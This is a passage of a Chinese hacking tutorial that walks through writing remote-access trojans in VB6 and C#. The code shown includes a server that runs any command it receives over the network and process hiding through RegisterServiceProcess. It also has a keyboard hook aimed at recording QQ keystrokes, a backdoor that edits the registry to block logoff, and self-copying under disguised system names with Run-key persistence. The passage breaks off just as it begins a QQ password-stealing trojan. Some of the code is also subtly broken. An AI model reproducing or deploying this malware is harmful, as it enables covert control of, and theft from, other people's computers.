好了，介绍了这么多，想必你早已迫不及待地想打开自己善用的编程工具准备大干一场了吧？在这里预祝你早日成功！

## 2.2 用VB来编写监听木马探测以及常规扫描的程序

上网的时候被别人探测是常有的事，一般探测你个人的入侵者技术不会高明到哪里去。所以根本称不上黑客，所以本文就用入侵者来代替。他们对普通网民的扫描可以是多端口单IP的扫描或者多IP单端口扫描。前者是通过一些IP工具来取得你的IP，然后尝试利用端口扫描获取你的信息，看你的计算机有没有预先中了木马。然后通过网上的木马端口列表，来获得木马名称。用相应的客户端软件来连接到你的计算机。从而获得密码、以及你的秘密信息。后者则是通过利用如SuperScan等可以大范围扫描IP的软件，扫描打开特定端口的机器。比如，可以扫描打开7626端口的机器，看对方是否中了冰河。然后，入侵者就用客户端连接到服务器从而入侵你的计算机。

这些扫描是简单的TCP的Connect扫描。所以无法避开防火墙的追踪。网民就可以利用天网等防火墙软件来获取对方的IP。相信很多DIY迷或者编程爱好者总是想拥有属于自己的类似的工具。本文就给你讲述如何用VB来编写探测入侵者的IP地址的工具。本程序还可以让你监听80端口，来察看对方对你进行的常规扫描。要看懂本文，你需要有一定的VB基础。

下面我们来看看本程序的基本原理：

入侵者通过Connect本机的端口，来获得信息。由于TCP的三次握手原理。他必定会留下自己的IP，我们就利用这一个原理来获得对方的IP。

Winsock控件的属性、方法和事件在本刊中《用winsock制作漏洞扫描器》一文中已经叙述过，读者可以对照参考，这里就不再介绍。大家还一定记得RemoteHostIP和LocalPort属性吧。这就是对方的IP和自己的端口。通过这两个属性就可以清楚的获得对方的IP地址和他正在扫描的本地端口。

因为一个端口不一定只有一个人会扫描，所以本程序我们需要使用到控件数组。这个概念的描述大家可以查找MSDN。本程序的流程是：

- 1、 定义需要监听的端口
- 2、 装载一定数量的Winsock1控件，从需要监听的端口列表中获得数据。一一开启监听功能。(Listen)
- 3、当某一个控件接收到连接的事件发生，就把得到的RemoteIP和LocalPort加入日志
- 4、加载一个Winsock2，继续捕获数据（Getdata）
- 5、Winsock2数据到达记录数据

程序的基本概念都介绍完了，相信你对本程序已经有了一定的认识。现在我们就来开始我们的工作：程序的控件以及说明如下：

| 控件名 | 控件类型 | 属性 |
|---|---|---|
| Label1 | Label | Caption="增加端口" |
| Command1 | command | Caption="添加" |
| Command2 | command | Caption="监听" |
| Command3 | Command | Caption="退出" |
| Listports | Listbox | 无 |
| TxtLog | Richtextbox | 无 |

程序的界面如图2-7:



程序的代码以及说明如下:



总结：其实一些程序的原理很简单，我们只要勇于实践，并且能够把所学的知识运用到你的程序中去，我想编出类似的程序是很简单的。如木马、端口扫描器、客户端工具、CGI漏洞扫描器……。VB的Winsock控件虽然不是底层操作，功能不如C语言的Socket编程。但实现普通的操作还是很有用的。简单的例子就是Cookie欺骗，用VB来编写这种程序十分简单。

## 2.3 用VB自制木马

木马程序分为很多种，最为常见的就是：当服务器端被激活后，黑客们就可以用客户端工具来远程控制对方的电脑。

网络上有一个很原始的漏洞，就是在本地主机上直接运行的程序拥有与使用者相同的权限。比如以Administrator 登录计算机的，你就拥有Administrator 的权限，那么从本地主机硬盘上启动运行的应用程序就有权享用主机的全部资源，但对于外部环境来说（如在Internet上的那些程序），一般没有对硬盘直接操作（读、写）的权利。很不幸，这个协议是现今的这种网络结构所决定的，是不能更改的——除非网络结构发生变化——于是就给用户带来了安全隐患：如果当Administrator不小心运行了一个可以接收外部指令的程序的时候，那么这台计算机就可以进行外部通讯了，攻击者就可以远在千里的地方静悄悄地看你计算机上的资料、你在干些什么，甚至Fromat你的硬盘！

明白了原理就好办了。现在我们正式开始用Visual Basic 6.0打造自己的木马程序！

木马一般分为两个主程序，一个是服务器端的程序（Server），另一个是客户端的程序（Client），服务器程序是给攻击对象用的，千万不可用错了，客户程序才是给自己用的。我们用VB建立两个程序，一个为服务器端程序 CockhorseServer，另一个为客户端程序 CockhorseClient。

先在CockhorseClient程序中建立一个窗体，加载一个WinSock控件，称为tcpClient；再加上两个文本框，用来输入服务器的IP地址和端口号。另外还要建立一个按键，按下后可以对连接进行初始化。代码如下：

```
// 调用 Connect 方法，初始化连接。
tcpClient.RemoteHost=IPInput.Text
tcpClient.RemotePort=Val(PortInput.Text) ' 这是端口号，默认为1001
tcpClient.Connect ' 和指定的IP相对的计算机相连接
cmdConnect.Enabled=False
// 在收到那些数据之后，就要对这些数据做出相应的处理，使用DataArrival事件，可以方便地对数据
进行操作。
Private Sub tcpClient_DataArrival(ByVal bytesTotal As Long)
Dim strData As String
tcpClient.GetData strData
If strData="Test Connect " Then
TCPState.Text="Connect OK" + vbNewLine + "Local IP is :" + -
tcpClient.LocalIP + "Computer Name is: " + tcpClient.LocalHostName
TCPState.Text=TCPState.Text + vbNewLine + "Remote IP is :" + -
tcpClient.RemoteHostIP + "Computer Name is: " + tcpClient.RemoteHostName
If InStr(Trim(strData),"CloseOK?")>0 Then
tcpClient.Close
End If
End If
txtOutput.Text=txtOuput.Text+vbNewLine+tcpClient.RemoteHostIP+":"+strData
End Sub
CockhorseClient
```

程序的核心部分就是这些，下面是CockhorseServer程序。CockhorseServer程序也是先建立一个窗体，也要加载一个WinSock控件。当CockhorseClient程序运行时，CockhorseClient程序就会对CockhorseServer发出连接请求。为了完成这个连接任务，可以用ConnectionRequest事件来完成，然后就是具体的错误情况的表达：

```
If Index= 0 Then
intMax=intMax+1
Load tcpServer(intMax)
tcpServer(intMax).Localport=0
tcpServer(intMax).Accept requestID
combol_IP.AddItem(tcpServer(intMax).RemoteHostIP)
combol_IP.Text=" 填上你恨的人的IP 吧！ "
tcpServer(intMax).SendData"Test Connect"
End If
```

它的效果是：当 CockhorseClient 程序被按下的时候，CockhorseServer 程序的 Connection Request 事件被触发，从而执行上述程序，产生连接。

现在的 CockhorseServer 程序只能做连接，还不能处理 CockhorseClient 程序所发出的指令，我们还必须用到 DataArrival 事件。代码如下：

```
Private Sub tcpServer_DataArrival(Index As Integer, ByVal bytesTotal As Long)
Dim strData As String
Dim check_blong
On Error GoTo err_pro
tcpServer(Index).GetData strData
check_blong = InStr(Trim(strData), "Exec")
If check_blong > 0 Then
strData = Trim(strData)
strData = Right(strData, Len(strData) - 4)
Connect.Text = Content.Text + vbNewLine + tcpServer(Index).RemoteHostIP + "" + "要求执行下面的程序：" + strData
Shell (strData)
Else
check_blong = InStr(Trim(strData), "CloseOK?")
If check_blong > 0 Then
tcpServer(Index).Close
Combol_IP.RemoveItem (Index - 1)
Content.Text = Content.Text + vbNewLine + tcpServer(Index).RemoteHostIP + "" + "已经断开！"
Else
Ipname.Text = tcpServer(Index).RemoteHostIP
txtOutput.Text = strData
Content.Text = Content.Text + vbNewLine + tcpServer(Index).RemoteHostIP + "" + strData
End If
End If
err_pro:
If Err = 53 Then
MsgBox "所执行的程序的路径有错误！" + tcpServer(Index).RemoteHostIP + "该程序在执行时被拒绝！"
tcpServer(Index).SendData ""
End If
Resume Next
End Sub
```

至此，一个完全个性化的木马就基本编写完成了。所谓触类旁通，以上所介绍的木马编制方法是最基础的，大家可酌情增加其他个性化模块，继续强化这个木马的功能。现在，杀毒软件还会查到我们的小马吗？

### 2.4 VB 编制木马的 3 点补充技巧

在网上有很多文章都在介绍 VB6 利用 Winsock 实现木马，自己也曾被网络实名这个以为是木马的东西老删不掉所困扰，又试用了 ProtectZ 的进程管理，所以对木马的隐藏及中止等方面的问题产生了兴趣。另外也是我自己倒霉——失业，不过失业也有时间让我去琢磨这些系统安全的东西。下面我把自己编制的几个小程序与大家共享，希望彼此都有所提高。

#### 1. 实现木马的隐藏

原理：通过 API 函数 RegisterServiceProcess 注册服务进程，使程序不出现在“关闭程序”列表当中（对 Win2000 以后版本是无效的）。

新建一工程，添加两个按钮控件，Form1 中的代码如下：

```
Private Declare Function GetCurrentProcessId Lib "kernel32" () As Long
'取得当前程序（进程）唯一 Id
Private Declare Function RegisterServiceProcess Lib "kernel32" (ByVal dwProcessID As Long, ByVal dwType As Long) As Long
' dwProcessID 需隐藏的进程 ID，dwType 隐藏还是显示

Const RSP_SIMPLE_SERVICE = 1
Const RSP_UNREGISTER_SERVICE = 0

Private Sub Command1_Click() '隐藏进程
    pid = GetCurrentProcessId()
    RegisterServiceProcess pid, RSP_SIMPLE_SERVICE
End Sub

Private Sub Command2_Click() '显示进程
    pid = GetCurrentProcessId()
    RegisterServiceProcess pid, RSP_UNREGISTER_SERVICE
End Sub
```

另外有一种简单的方法，只需新建一工程，在 Form1 中添加如下代码：

```
Private Sub Form_Load()
App.Title = ""
End Sub
```

但此方法在 VB 开发环境下是无效的，当然我们做好的东西也不是在 VB 下用的。

### 2. 系统所有运行进程的显示与中止：消灭一切隐藏的陌生进程（包括木马，网络实名的客户端等）

原理：使用 ToolHelp32 函数族里的一些 API 函数获得系统进程快照，使用 OpenProcess 与 TerminateProcess 结束进程。

步骤如下：

新建一个工程，添加一模块 Module，其中代码如下：

```
Public Const MAX_PATH = 260
Public Const TH32CS_SNAPPROCESS = 2 '进程快照类型
Public Declare Function CreateToolhelp32Snapshot Lib "kernel32" (ByVal dwFlags As Long, ByVal th32ProcessID As Long) As Long
Public Declare Function CloseHandle Lib "kernel32" (ByVal hObject As Long) As Long

Type PROCESSENTRY32 '快照进程结构
    dwsize As Long
    cntusage As Long
    th32ProcessID As Long
    th32DefaultHeapID As Long
    th32ModuleID As Long
    cntThreads As Long
    th32ParentProcessID As Long
    pcPriClassBase As Long
    dwFlags As Long
    szExeFile As String * MAX_PATH
End Type

Public Declare Function Process32First Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long
Public Declare Function Process32Next Lib "kernel32" (ByVal hSnapshot As Long, lppe As PROCESSENTRY32) As Long

Type ProcessList
ProcessId As Long
EXEName As String
cntThreads As Long
End Type

Public Declare Function OpenProcess Lib "kernel32" (ByVal dwDesiredAccess As Long, ByVal bInheritHandle As Long, ByVal dwProcessId As Long) As Long
Public Declare Function TerminateProcess Lib "kernel32" (ByVal hProcess As Long, ByVal uExitCode As Long) As Long
Public Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)

Public Const STANDARD_RIGHTS_REQUIRED = &HF0000
Public Const SYNCHRONIZE = &H100000
Public Const PROCESS_ALL_ACCESS = STANDARD_RIGHTS_REQUIRED Or SYNCHRONIZE Or &HFFF
'以上三个是进程打开的权限
'************************************************************
' 以 Chr(0) 作为结束符，截断字符串
'************************************************************
Function mTrim(s As String) As String
For i = 1 To Len(s)
If Mid(s, i, 1) = Chr(0) Then Exit For
Next
mTrim = Left(s, i - 1)
End Function
'************************************************************
' 显示系统进程
'************************************************************
Public Function mProcessList(PL() As ProcessList) As Long
Dim hProcessSnap As Long
Dim PE32 As PROCESSENTRY32

hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)
mProcessList = 0
PE32.dwsize = Len(PE32)
If Process32First(hProcessSnap, PE32) Then
Do
PL(mProcessList).EXEName = mTrim(PE32.szExeFile)
PL(mProcessList).ProcessId = PE32.th32ProcessID
PL(mProcessList).cntThreads = PE32.cntThreads
mProcessList = mProcessList + 1
Loop While Process32Next(hProcessSnap, PE32)
End If
CloseHandle (hProcessSnap)
End Function
```

在 Form1 窗体上添加两个按钮（用于显示进程 Command1、中止进程 Command2）和一个 listbox 控件 List1，其中代码如下：

```
Dim PL(50) As ProcessList
Private Sub Command1_Click()
ShowProcess
End Sub

Private Sub Command2_Click()
On Error Resume Next
phnd = OpenProcess(PROCESS_ALL_ACCESS, 0, PL(List1.ListIndex).ProcessId)
' 取得 Process Handle
Call TerminateProcess(phnd, 0) ' TerminateProcess 所传入的是 Process Handle
Call CloseHandle(phnd)
Sleep 100
ShowProcess
End Sub

Private Sub Form_Load()
ShowProcess
End Sub

Sub ShowProcess()
List1.Clear
x = mProcessList(PL)
For i = 0 To x - 1
List1.AddItem Hex(PL(i).ProcessId) & " - " & PL(i).cntThreads & " - " & PL(i).EXEName
Next
End Sub
```

### 3. 截获系统组合键 Ctrl+Shift+Alt 消息，可用于记录 QQ 等的按键信息

原理：利用设置系统钩子函数 SetWindowsHookEx，连接自己的消息处理函数，截获键盘信息。

步骤如下：

新建一工程，添加一模块，其代码如下：

```
Public Const WM_KEYDOWN = &H100 '系统发出的键盘按下消息
Public Const HC_ACTION = 0
Public Const WH_JOURNALRECORD = 0 '获得鼠标、键盘动作的消息类型
Type EVENTMSG '消息结构
    message As Long
    paramL As Long
    paramH As Long
    time As Long
    hwnd As Long
End Type
Declare Function SetWindowsHookEx Lib "user32" Alias "SetWindowsHookExA" (ByVal idHook As Long, ByVal lpfn As Long, ByVal hmod As Long, ByVal dwThreadId As Long) As Long
Declare Function UnhookWindowsHookEx Lib "user32" (ByVal hHook As Long) As Long
Declare Function CallNextHookEx Lib "user32" (ByVal hHook As Long, ByVal nCode As Long, ByVal wParam As Long, lParam As Any) As Long
Declare Sub CopyMemory Lib "KERNEL32" Alias "RtlMoveMemory" (lpvDest As Any, ByVal lpvSource As Long, ByVal cbCopy As Long)
Declare Function GetAsyncKeyState Lib "user32" (ByVal vKey As Long) As Integer
Public hHook As Long '钩子过程的句柄
Public msg As EVENTMSG
Sub EnableHook()
    hHook = SetWindowsHookEx(0, AddressOf HookProc, App.hInstance, 0)
End Sub
Sub FreeHook()
    Dim ret As Long
    ret = UnhookWindowsHookEx(hHook)
End Sub
'************************************************************
' 以下为自己的钩子消息处理函数
'************************************************************
Function HookProc(ByVal code As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
    Dim i As Long, j As Integer
    If code <> HC_ACTION Then
        HookProc = CallNextHookEx(hHook, code, wParam, lParam)
        '将消息传递到消息链的下一个接受单元
        Exit Function
    End If
```

'以上 if...end if 块是一个定式，查看 MSDN 说 code 为消息来源，是 HC_ACTION 时，钩子函数一定要处理，否则就传给下一个接受者。没有道理可讲。
CopyMemory msg, lParam, LenB(msg)

```
If msg.message = WM_KEYDOWN Then
    If GetAsyncKeyState(vbKeyControl) And GetAsyncKeyState(vbKeyShift) And GetAsyncKeyState(vbKeyMenu) Then
        Debug.Print "Ctrl+Shift+Alt" '截获后在调试窗口显示信息,你可以做其他
    End If
End If
HookProc = CallNextHookEx(hHook, code, wParam, lParam)
End Function
```

在 Form1 中添加如下代码：

```
Private Sub Form_Load()
Call EnableHook
End Sub

Private Sub Form_Unload(Cancel As Integer)
Call FreeHook
End Sub
```

以上程序在 Win98+VB6 环境下调试通过。最后奉劝经常上网吧或者使用别人机器上网的朋友，最好先看看自己的机器是不是运行了不妥的程序。正所谓：小心驶得万年船。

## 2.5 木马程序 C# 做

### 一、木马介绍：

阅读前参照《黑客防线》2000-2001 精华本中的木马原理揭秘。

因为本程序是木马程序，所以在介绍之前有一些木马构成的基本知识需要事先说明，下面很多地方会提到这些内容。一个完整的木马系统由硬件部分、软件部分和具体连接部分组成。这里主要介绍软件部分，它主要由控制端程序、木马程序（后台服务程序）、木马配制程序组成。控制端用以远程控制服务端的程序；木马程序是潜入服务端内部，获取其操作权限的程序；木马配制程序是设置木马程序的端口号、触发条件、木马名称等，使其在服务端藏得更隐蔽的程序。

### 二、使用的技术：

控制端程序发送控制码控制服务器，服务器后台运行，修改注册表达到控制的目的。技术不是很难，主要体现 C# 的网络编程和注册表的修改。

### 三、控制端的开发：

控制端向服务器发出一段控制码，服务端（木马程序）收到控制码后，根据控制的要求，完成指定的要求。如果服务器完成工作，返回成功的信息。

### 四、控制码的开发：

控制码可以自己设定，不需要详解，主要有以下几个难点：

- 1. 连接请求。

使用了 .NET 类中的 System.Net.Sockets.TcpClient 类。

```
TcpClient(string hostname, int port)
```

Hostname 是要控制的主机名称，当然你也可以用 IP 地址。Port 是端口。

## 代码示例

```csharp
// System.EventArgs 包含事件数据类的基类
private void button7_Click(object sender, System.EventArgs e)
{
    // 记录操作，在 richTextBox 控件中增加操作信息
    richTextBox1.AppendText(" 请求连接 " + textBox1.Text + "\r");
    int port = 6678;
    try
    {
        // 初始化 TcpClient 类的新实例并连接到指定主机上的指定端口
        client = new TcpClient(textBox1.Text, port);
    }
    catch
    {
        MessageBox.Show(" 服务器不在线! 确定是否输入主机名称. ");
        richTextBox1.AppendText(" 服务器不在线! 确定是否输入主机名称. ");
    }
} // private void button
```

2. 测试是否与被控制机连接上。程序的流程是发送控制码，看控制端是否有反应，如果有返回，则显示控制成功。

```csharp
// 提供网络访问的数据流
// private NetworkStream stream;
代码如下:
private void button8_Click(object sender, System.EventArgs e)
{
    // 记录操作
    richTextBox1.AppendText(" 测试连接 " + "\r");
    try
    {
        stream = client.GetStream();
        if (stream.CanWrite)
        {
            // 发送控制码
            string control = "jiance";
            byte[] by = System.Text.Encoding.ASCII.GetBytes(control.ToCharArray());
            stream.Write(by, 0, by.Length);
            // 下次使用
            stream.Flush();
            // 启动接收返回数据的线程
            // receive 是线程执行的函数，见后面的分析
            threadReceive = new Thread(new ThreadStart(receive));
            threadReceive.Start();
        }
    }
    catch (Exception ee)
    {
        richTextBox1.AppendText(ee.Message + "\r");
        MessageBox.Show(ee.Message);
    }
}
```

## 3. 控制生效的代码。

```csharp
private void button9_Click(object sender, System.EventArgs e)
{
    // 这里是确定要发送的控制码，RadioButton 是窗体控件
    if (radioButton1.Checked) { control = form2.zhucex; }
    else if (radioButton2.Checked) { control = form3.zhuces; }
    else if (radioButton3.Checked) { control = warring; }
    else if (radioButton4.Checked) { control = suggest; }
    else if (radioButton5.Checked) { control = form4.mumawe; }
    else if (radioButton6.Checked) { control = drop; }
    if (control == "000000")
    {
        MessageBox.Show(" 你没有输入任何控制目标!不发控制信号");
        richTextBox1.AppendText(" 你没有输入任何控制目标!不发控制信号");
    }
    else if (control != "000000")
    {
        try
        {
            // 记录操作
            richTextBox1.AppendText(control + " 正在试图控制，等待回应......" + "\r");
            stream = client.GetStream();
            if (stream.CanWrite)
            {
                byte[] by = System.Text.Encoding.ASCII.GetBytes(control.ToCharArray());
                stream.Write(by, 0, by.Length);
                stream.Flush();
                threadReceive = new Thread(new ThreadStart(receive));
                threadReceive.Start();
            } // endif
        } // try
        catch
        {
            richTextBox1.AppendText(" 服务器未连接 1 控制无效!" + "\r");
            MessageBox.Show(" 服务器未连接 1 控制无效!" + "\r");
        }
    } // else if
}
```

## 4. 线程执行的函数。

```csharp
private void receive()
{
    // 设置读取数据的空间
    byte[] bb = new byte[3];
    // 读取 3 个字节，i 为实际读取的字节数
    int i = stream.Read(bb, 0, 3);
    // 转换成字符串，如果是中文控制码则用 string ss = System.Text.Encoding.Unicode.GetString(bb);
    string ss = System.Text.Encoding.ASCII.GetString(bb);
    // hjc 为我设置的服务器的返回码，hjc 为连接成功，hkz 为控制成功
    if (ss == "hjc")
    {
        MessageBox.Show("连接成功");
        richTextBox1.AppendText("连接成功");
    }
    if (ss == "hkz")
    {
        richTextBox1.AppendText(control + "控制成功" + "\r");
        MessageBox.Show(control + "控制成功" + "\r");
    }
}
```

## 五、服务端的开发：

要实现木马服务的程序，主要实现以下几个功能：后台的运行（隐藏技术）、控制码的接收与注册表的修改。

- 1. 在 VC# 中，建立一个后台服务程序是很容易的，先建立一个新的 C# 的 Windows 应用程序，项目名称自定（为了隐藏，可使用与系统相近的名称），将窗体属性“ShowInTaskbar”属性设为 false，让它运行时不会在任务栏中显示，并将属性“Windowstate”属性设为 Minimized 即可，这样窗体就可以隐藏运行了。当然你也可以在 InitializeComponent() 设置，此函数起初始化的作用，在窗体显示前运行，代码如下：

```csharp
private void InitializeComponent()
{
    //
    // Form1
    //
    // 窗体显示的起点和大小
    this.AutoScaleDimensions = new System.Drawing.Size(6, 14);
    this.ClientSize = new System.Drawing.Size(368, 357);
    // 窗体名称
    this.Name = "Form1";
    // 设置属性让它后台运行
    this.ShowInTaskbar = false;
    this.Text = "Form1";
    this.WindowState = System.Windows.Forms.FormWindowState.Minimized;
}
```

- 2. 控制代码的接收，必须在服务程序运行开始就启动，所以侦听线程必须在程序初始化中启动，放在窗体的构造函数中。代码注解如下：

```csharp
public Form1() // 窗体的构造函数
{
    //
    // Windows 窗体设计器支持所必需的
    //
    InitializeComponent();
    //
    // TODO: 在 InitializeComponent 调用后添加任何构造函数代码
    // 加入你的侦听代码
    // 端口你可以自己设定，我使用了固定的端口
    int port = 6678;
    // System.Net.Sockets.TcpListener 是用来在 Tcp 网络中侦听客户端的
    listener = new TcpListener(port);
    // 启动侦听
    listener.Start();
    // 增加接收控制码的线程，如果要停止线程可以用 Thread.Abort()
    // reControlCode 是线程启动执行的函数，此函数根据接收的控制
    // 控制码选取合适的注册表修改函数
    Thread thread = new Thread(new ThreadStart(reControlCode));
    thread.Start();
}
```

reControlCode 函数如下，完整代码见程序

```csharp
private void reControlCode()
{
    // 设置接收套接字，接收 listener.AcceptSocket 是返回已经接收的客户的请求
    socket = listener.AcceptSocket();
    // 如果连接成功执行
    while (socket.Connected)
    {
        // 接收控制码
        byte[] by = new byte[6];
        int i = socket.Receive(by, by.Length, 0);
        string ss = System.Text.Encoding.ASCII.GetString(by);
        // 根据控制码执行不同的功能
        // 修改注册表加入编码
        switch (ss)
        {
            case "jiance": // 测试连接，返回测试信息
                string str = "hjc";
                byte[] bytee = System.Text.Encoding.ASCII.GetBytes(str);
                socket.Send(bytee, 0, bytee.Length, 0);
                break;
            case "zx1000":
                // 修改注册表函数，自己定义，见下面分析
                UnLogOff();
                // 返回控制消息
                retMessage();
                break;
            case "zx0100":
                // 修改注册表函数
                UnClose();
                // 返回控制消息
                retMessage();
                break;
            // 重复的 case 功能与前面一样，略掉
            default:
                break;
        } // case
    } // while
} // private void reControlCode
```

3. C# 中实现注册表的修改，使用了 .NET 类库中的 System.Microsoft.Win32 命名空间，它提供两种类型的类：处理由操作系统引发的事件的类和对系统注册表进行操作的类。下面就可以看到它的用法。这里我做了一个修改注册表的子程序，使计算机不能注销。在这之前先了解注册表，在子键 SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer 下面设键值 NoLogOff 为 1，即可使计算机无法注销。在下面的函数中用 C# 实现对注册表的修改：

```csharp
private void UnLogOff()
{
    // 得到主机的注册表的顶级节点
    Microsoft.Win32.RegistryKey rLocal = Registry.LocalMachine;
    // 设置一个注册表子键的变量
    RegistryKey key1;
    try
    {
        // 函数 RegistryKey.OpenSubkey(string registrykey, bool canwrite) 检索指定的子键
        // registrykey 是用户指定的键值，canwrite 为 true 则可修改，默认为 false 不可改
        key1 = rLocal.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer", true);
        // 设置子键的键名，和值
        key1.SetValue("NoLogOff", 1);
        // 关闭打开的子键
        key1.Close();
        // 警告字符串设定
        mystr = mystr + "HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer 键值 Nologoff 被修改! 请将它置为 0!";
    }
    catch { }
    // 如果不存在自己建立
    if (key1 == null)
    {
        try
        {
            // 使用 RegistryKey.CreateSubKey(string mystring) 函数来建立你需要的子键
            RegistryKey key2 = rLocal.CreateSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer");
            key2.SetValue("NoLogOff", 1);
            key2.Close();
            mystr = mystr + "HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer 键值 Nologoff 被修改! 请将它置为 0!";
        }
        catch { }
    }
}
```

4. 在木马程序中，还有一个重要的功能就是自我的复制和转移。木马引入被控制的主机时必须自动将木马隐藏在 System，System32 的目录下，以防被发现。转移的代码分析如下，主要实现的功能是将 D 盘下的木马程序转移到 C:\winnt\system\msdoss.exe，同时换名称。使用的 .NET 命名空间 System.IO，它的作用是允许对数据流和文件进行同步和异步读写。这里我们使用了 System.IO.File 类：

```csharp
private void moveCC1()
{
    try
    {
        // 函数 File.Move(string sourceFileName, string destFileName) 起移动文件的作用
        // sourceFileName 为要移动的文件名，destFileName 为文件的新路径
        File.Move("C:\\winnt\\system\\msdoss.exe", "d:\\winnt\\system32\\expleror.exe");
    }
    catch { }
    // 将新移的木马程序设为自启动，分析和前面一样
    try
    {
        key1 = rLocal.OpenSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", true);
        key1.SetValue("microsoftt", "d:\\winnt\\system32\\expleror.exe");
        key1.Close();
    }
    catch { }
    if (key1 == null)
    {
        try
        {
            RegistryKey key2 = rLocal.CreateSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run");
            key1.SetValue("microsoftt", "d:\\winnt\\system32\\expleror.exe");
            key1.Close();
        }
        catch { }
    }
} // moveCC1()
```

到这里，一个简单的 C# 的木马就完成了。如果有疑问，请到 www.vchelp.net 论坛的 C# 或 NET 版面参加讨论，或发信给我 chenweijun_sh@etang.com。

### 2.6 木马伪装如此简单

声名：本文没有高深的技术，仅是为了探讨木马的一般编程要点，揭穿木马行骗的伎俩，请不要利用本文介绍的内容危害网络!

相信大家对木马都很熟悉吧？它是一种表面上看起来很友好，一旦进入用户的计算机便胡作非为的恶毒程序，凡是具有此功能的程序我们都可以视之为“木马”。美国“死牛崇拜”黑客小组发布 BO 时，曾经一度搞得人心惶惶，此后，各种木马程序犹如雨后春笋，纷纷浮出水面，如国人写的“冰河”、“广外女生”等，都是极其出色的木马程序。

别人开发的木马玩了那么久，是不是也想自己编个木马玩玩？木马种类繁多，要编像 BO、冰河那么优秀的木马程序需要解决的技术问题很多，写起程序来也很复杂。我们选个功能简单点的吧，如今 QQ 火爆得要命，来个“QQ 密码截获”木马怎么样？它的编写相对比较简单。

我们要这匹“马”实现的功能是：在用户计算机中运行后，将自身拷贝到一个偏僻的地方躲起来，每次机器启动都能自动运行，并不出现在 Ctrl+Alt+Del 组合键调出的程序列表框中，静悄悄地截获用户输入的 QQ 密码，将其保存到某个文件中，定期发送到我们指定的邮箱中去。

开工之前我们要选好工具，可选的工具有 VB、VC、C++ Builder 等等，笔者对 C++ Builder 情有独钟，就拿它来修这匹马吧：D。由于 BCB 封装性极强，如果不是很麻烦，笔者尽量调用 API 函数来完成相关的功能，以便大家更好地理解。

#### 一、程序主体部分

